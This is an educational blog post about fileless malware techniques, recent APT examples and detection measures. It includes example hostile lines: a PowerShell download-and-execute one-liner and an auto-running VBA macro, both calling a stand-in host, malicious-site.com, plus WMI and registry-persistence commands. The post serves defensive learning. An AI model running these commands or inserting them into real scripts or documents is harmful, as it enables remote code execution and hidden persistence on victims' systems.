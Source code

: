 ```yaml
---
title: "Understanding Fileless Malware"
classes: wide
header:
  teaser: /assets/images/image.png
ribbon: DodgerBlue
description: "Exploring the techniques used by fileless malware to evade detection and persist in systems."
categories:
  - Malware Analysis
toc: true
date: 2024-08-26
---
```



# Understanding Fileless Malware

## What is Fileless Malware?

Fileless malware is a type of malicious software that operates without needing to install files directly onto a victim's device. Unlike traditional malware, which relies on executable files, fileless malware leverages existing software, legitimate system tools, and protocols to execute its payload. This makes detection and mitigation more challenging, as it doesn't leave behind traditional footprints that antivirus software typically looks for.

<style>
    img {
        max-width: 100%;
        height: auto;
    }
</style>

<p align="center">
    <img src="https://raw.githubusercontent.com/daniyyell-dev/draw.io/main/fileless_Malware.png" alt="Fileless Malware">
</p>

<p align="center"><em>Fileless Malware Overview</em></p>

## How Does Fileless Malware Work?

Fileless malware operates by injecting malicious code into legitimate processes running in memory. Here are some common techniques used by fileless malware:

### PowerShell Scripts

Attackers often use PowerShell, a legitimate Windows administration tool, to execute malicious scripts directly in memory. PowerShell scripts can download and execute additional payloads, conduct reconnaissance, and establish persistence.

# Example of a Malicious PowerShell Command

`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')"`

### Windows Management Instrumentation (WMI)

WMI allows attackers to gather information and execute code without needing to drop files on the system. It is often used for lateral movement and persistence.

# Example of WMI Usage for Persistence

`wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command 'Get-Content malicious.ps1 | iex'"`

### Registry Manipulation

Malicious code can be stored and executed directly from the Windows registry, avoiding the file system altogether. This technique is often used to achieve persistence.

# Example of Registry Persistence

`Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -NoProfile -ExecutionPolicy Bypass -File C:\malicious.ps1"`

### Macros and Scripts

Infected macros in documents (e.g., Microsoft Word or Excel) can run malicious scripts when the document is opened. These macros can download and execute additional payloads from the internet.

# Example of a Malicious VBA Macro

vba script sample

'Sub AutoOpen()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell -NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')", 0, True
End Sub'

### Examples of Fileless Malware Attacks

**Operation Cobalt Kitty**

In this attack, a sophisticated cyber espionage group used fileless techniques to infiltrate and persist in a corporate network. They utilized PowerShell scripts and WMI to move laterally and exfiltrate sensitive data without dropping any traditional malware files. Read more <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty: A large-scale APT in Asia carried out by the OceanLotus Group</a>


**APT28/Sofacy**

The APT28 group, also known as Sofacy, used fileless malware to target government institutions and defence contractors. They employed macros embedded in Office documents to execute PowerShell scripts, thereby compromising systems without writing files to disk. Read More here <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is FANCY BEAR (APT28)?</a>



### Detection and Prevention

Detecting fileless malware requires a multi-layered security approach, including:

#### Behavioral Analysis

Monitoring unusual behaviour patterns in legitimate processes can help identify fileless malware activity. This involves looking for abnormal usage of tools like PowerShell and WMI.

#### Endpoint Detection and Response (EDR)

EDR tools can detect suspicious activities in memory and registry that traditional antivirus solutions might miss. These tools often use machine learning and behaviour analytics to identify threats.

#### PowerShell Logging

Enabling PowerShell script block logging helps detect and investigate potentially malicious scripts. This provides visibility into the execution of commands and scripts on endpoints.

**Enable PowerShell Script Block Logging**

`Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1`

#### Least Privilege Principle

Limiting user permissions can prevent malicious scripts from executing critical system changes. Ensure that users have the minimum necessary access rights.


### Conclusion

Fileless malware represents a significant threat due to its stealthy nature and ability to evade traditional detection methods. Understanding how it operates and employing robust detection and prevention measures is crucial for protecting against these sophisticated attacks.

Stay vigilant and keep your security tools and practices up to date to defend against the ever-evolving threat landscape.

### References

1. <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty APT - Cybereason</a>
2. <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is Fancy Bear?</a>


